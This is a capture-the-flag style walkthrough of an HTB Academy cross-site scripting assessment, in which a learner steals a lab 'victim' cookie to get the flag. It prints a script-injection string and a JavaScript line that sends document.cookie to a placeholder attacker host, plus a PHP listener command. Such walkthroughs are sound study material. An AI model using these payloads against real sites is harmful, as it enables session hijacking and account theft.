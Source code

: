 We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new `Security Blog`.
 In our Web Application Penetration Testing plan, we reached the part 
where you must test the web application against Cross-Site Scripting 
vulnerabilities (XSS).

Start the server below, make sure you are connected to the VPN, and access the `/assessment` directory on the server using the browser:

**Questions:**

1. Identify a user-input field that is vulnerable to an XSS vulnerability
2. Find a working XSS payload that executes JavaScript code on the target's browser
3. Using the `Session Hijacking` techniques, try to steal the victim's cookies, which should contain the flag.
**Answers:**

First, let's create a server on our machine and prepare a payload for testing input fields on the target site.
```mkdir /tmp/tmpserver```

```cd /tmp/tmpserver```

```nano myscript.js > new Image().src='http://hacker_ip:3333/index.php?c='+document.cookie;```

```nano index.php```
>

<img src="https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBox/HTB-Academy-Cross-Site-Scripting-skills-assessment/images/HTB-CROSS_SITE-SCRIPTING-XSS-.png" >
Let's start your server

```sudo php -S 0.0.0.0:3333```

Now let's test the input fields on the target site:

```"><script src=http://hacker_ip:3333/myscript.js></script>```

<img src="https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBox/HTB-Academy-Cross-Site-Scripting-skills-assessment/images/php-server.png" >

<img src="https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBox/HTB-Academy-Cross-Site-Scripting-skills-assessment/images/inputs.png" >

Great, it works!

Let's check our cookie file.
<img src="https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBox/HTB-Academy-Cross-Site-Scripting-skills-assessment/images/cookie.png" >

Happy Hacking!

[My HTB Academy unique referral link >](https://referral.hackthebox.com/mzyGKZb)


